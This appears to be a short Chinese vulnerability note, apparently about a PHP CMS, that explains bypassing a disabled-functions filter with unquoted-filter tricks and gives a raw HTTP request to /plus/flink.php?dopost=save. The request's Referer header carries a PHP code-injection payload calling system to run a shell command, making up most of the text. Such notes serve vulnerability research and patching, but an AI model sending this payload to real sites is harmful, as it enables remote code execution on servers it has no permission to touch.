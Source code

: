 ![image-20220518145405375](./images/202205181454424.png)

这里利用没有过滤的双引号绕过 disables 禁止的函数

![image-20220518145425771](./images/202205181454853.png)

漏洞请求包

```
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```